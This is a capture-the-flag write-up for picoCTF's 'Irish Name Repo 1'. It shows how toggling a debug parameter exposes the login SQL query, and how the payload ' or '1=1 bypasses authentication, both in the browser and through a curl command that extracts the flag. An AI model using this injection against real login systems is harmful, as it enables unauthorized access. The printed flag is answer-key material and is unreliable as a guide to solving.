


# Irish Name Repo 1
Author: dch0017

## Challenge Description
There is a website running at. Do you think you can log us in? Try to see if you can login!

## Accessing Site
We get this site full of famous Irish people I guess?: </br>

</br>

## Navigating Site
We can navigate around the site, but on the left hand side I am drawn to the ```Admin Login``` section. This brings us to a totally new ```login.html``` portion of the site.</br>

</br>

## Login Test
Let's open burpsuite to monitor the traffic as we send a fake request along, let's use username and password ```test```. Immediately we get a giant `Login failed` page.
But if we look at the actual POST request that was sent during login we see something interesting:
```
POST /problem/33850/login.php HTTP/1.1
Host: jupiter.challenges.picoctf.org
Content-Length: 35
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://jupiter.challenges.picoctf.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://jupiter.challenges.picoctf.org/problem/33850/login.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=test&password=test&debug=0
```

The ```POST``` request contains our username and password, but also a `debug` value set to `0`. Let's try that and intercept our request and change it to `1`.

## Debug=1
After passing our edited request along, we get our failed login page again. Now at the top though, we have our username and password, and the SQL query that was passed along.
```
username: test
password: test
SQL query: SELECT * FROM users WHERE name='test' AND password='test'
```

## SQL Injection
We see that it is a standard `SELECT * FROM table WHERE` query for login but we don't know if there is any special validation checks on the input. We can easily do a quick check by setting the `name` and `password` values to true by using an `or` statement.

To do this we can use the following payload for both our `name` and `password`: 
```
' or '1=1
```

This would equate to the query:
`SELECT * FROM users WHERE name='' or '1=1' AND password='' or '1=1'`

Since 1 will always equal 1, this should work if there is no input validation.

## Flag

</br>


## Linux
We can also do this using `curl` but we need to make sure to url-encode our input so that it will be passed correctly.
```console
┌──(kalie㉿kali)-[~]
└─$ curl -X POST https://jupiter.challenges.picoctf.org/problem/33850/login.php --data "username=%27+or+%271%3D1&password=%27+or+%271%3D1&debug=0" -s | grep -o "picoCTF{.*}" --color=none
picoCTF{s0m3_SQL_f8adf3fb}
```
